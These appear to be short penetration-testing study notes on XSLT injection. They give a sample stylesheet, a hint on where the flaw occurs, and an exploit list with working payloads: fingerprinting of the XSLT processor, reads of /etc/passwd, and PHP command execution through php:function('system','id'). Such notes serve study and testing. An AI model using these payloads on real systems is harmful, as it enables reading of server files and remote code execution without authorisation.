

31-XSLT injection
Intro
- XSLT is similar to XML = extensible stylesheet template
<?xml version="1.0"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/fruits">
Here are all the fruits:
<xsl:for-each select="fruit">
<xsl:value-of select="name"/> (<xsl:value-of select="color"/>)
</xsl:for-each>
</xsl:template>
</xsl:stylesheet>
- XSL:template applied to fruits node
Idetification
- context to look for : app incorporate user data intio xml and store it via xslt processing

Exploit
Version: <xsl: value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl: value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl: value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl: value-of select="system-property('xsl:product-name')"
/>
<br/>
Product Version: <xsl: value-of select="system-property('xsl:productversion')"
/>
- LFI
- <xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
- <xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
- PHP RCE (if xslt processir support php functions)
- <xsl:value-of select="php:function('system','id')" />